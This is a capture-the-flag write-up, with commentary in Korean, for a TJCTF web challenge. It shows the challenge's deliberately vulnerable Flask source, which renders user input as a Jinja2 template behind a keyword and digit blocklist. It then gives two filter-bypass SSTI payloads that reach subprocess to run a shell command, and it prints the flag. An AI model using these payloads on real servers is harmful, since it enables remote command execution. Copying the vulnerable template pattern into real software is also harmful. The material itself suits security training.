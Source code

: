 # Congenial Octo Couscous
**Web, 70pts**
> Written by avz92
>
> Team Congenial-Octo-Couscous is looking to replace one of its members for the Battlecode competition, who carried the team too hard and broke his back. Until a neural net can take his place, the team wants a 4th member. Figure out how to join the team and read the secret strategy guide to get the flag.

--------------------------------------------------------------------------------

```python
from flask import Flask, render_template, request, render_template_string
from multiprocessing import Pool
import random
import re

app = Flask(__name__,template_folder='templates')
app.config['SERVER_FILEPATH']='/secretserverfile.py'

def check_chars(text=''):
    if text=='':
        return False
    
    if '{' in text or '}' in text:
        text2=re.sub(r'\s','',text).lower()
    
    illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
    
    if any([x in text2 for x in illegal]):
        return False
    
    for i in range(10):
        if str(i) in text:
            return False
    
    return text
    
def async_function(message):
    return render_template_string(message)
    
app.jinja_env.globals.update(check_chars=check_chars)

@app.route('/')
def main():
    return render_template('index.html')
    
@app.route(app.config['SERVER_FILEPATH'])
def server():
    return open('server.py').read()
    
@app.route('/strategyguide.txt')
def guide(): #TODO: add authentication to endpoint return 'ACCESS DENIED'
    
@app.route('/apply',methods=["POST"])
def apply():
    if request.form.get('username') is not None:
        if check_chars(request.form.get('username')):
            message='Hello, '+check_chars(request.form.get('username'))+'. Your application will be processed in '+ str(random.randint(3,7)) +' weeks.'
            result=None
            with Pool(processes=1) as pool:
                return_val=pool.apply_async(async_function,(message,))
                try:
                    result=return_val.get(timeout=1.50)
                except:
                    result='Server Timeout'
                    return result
        else:
            return 'Server Error'
            
if __name__ == "__main__":
    app.run(debug=True)
```

입력창에 SSTI 취약점 구문을 입력해보니 계산식이 출력되어 Flask SSTI 문제라고 생각하였다. 위의 코드에서 키워드와 정수값이 필터링되는 것을 보고 아래의 게시물을 참고하여 필터링을 우회할 수 있는 페이로드를 작성하였다.

- https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

```
Payload 1
{{()|attr(request.form.get('fname'))|attr('__base__')|attr(request.form.get('lname'))()|attr('__getitem__')((true+true)**(true+true+true+true+true+true+true)+(true+true)**(true+true+true+true+true+true)+true+true+true+true+true+true+true)('cat strategyguide.txt',shell=True,stdout=-(true))|attr('communicate')()}}

Payload 2
{{''|attr(request.form.get('fname'))|attr('__mro__')|attr('__getitem__')(true)|attr(request.form.get('lname'))()|attr('__getitem__')((true+true)**(true+true+true+true+true+true+true)+(true+true)**(true+true+true+true+true+true)+true+true+true+true+true+true+true)('cat strategyguide.txt',shell=True,stdout=-(true))|attr('communicate')()}}
```

![Exploit](exploit.png)

```
Flag: tjctf{c0ng3n1al_500iq_str4ts_ez_dub}
```
